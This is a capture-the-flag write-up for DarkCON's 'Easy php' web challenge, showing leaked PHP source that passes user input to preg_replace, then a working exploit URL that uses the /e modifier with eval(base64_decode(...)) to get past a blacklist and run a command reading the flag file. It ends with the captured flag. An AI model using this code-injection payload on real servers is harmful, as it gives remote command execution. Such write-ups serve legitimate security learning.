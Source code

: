Easy php
========
category: web

[challenge-link:](http://easy-php.darkarmy.xyz/)

>In this challenges there was no hint/desc

solution
---------


when we open the challenge link we get a web page with text ``Welcome DarkCON CTF !!``

in the robots.txt it says ``?lmao``
when we put ``challenge-link:http://easy-php.darkarmy.xyz/?lmao`` we will get the php source code of index.php
source code:
```php
<?php
require_once 'config.php';

$text = "Welcome DarkCON CTF !!";

if (isset($_GET['lmao'])) {
    highlight_file(__FILE__);
    exit;
}
else {
    $payload = $_GET['bruh'];
    if (isset($payload)) {
        if (is_payload_danger($payload)) {
            die("Amazing Goob JOb You :) ");
        }
        else {
            echo preg_replace($_GET['nic3'], $payload, $text);
        }
    }
    echo $text;
}
?>
```

Now we have to pass two GET parameter to the url ``bruh`` and ``nic3``
we get code exicution because of the ``preg_replace()`` function

But the `` is_payload_danger()`` function filters our input so some functions like system etc are blacklisted we have to bypass that
so i used base64 encoded the payload and use eval and decode function to get the flag

base64 of ``system('cat flag*') ``

payload:
```url
http://easy-php.darkarmy.xyz/?nic3=/Dark/e&bruh=eval(base64_decode(%27c3lzdGVtKCdjYXQgZmxhZyonKTsK%27))
```
flag:
darkCON{w3lc0me_D4rkC0n_CTF_2O21_ggwp!!!!}



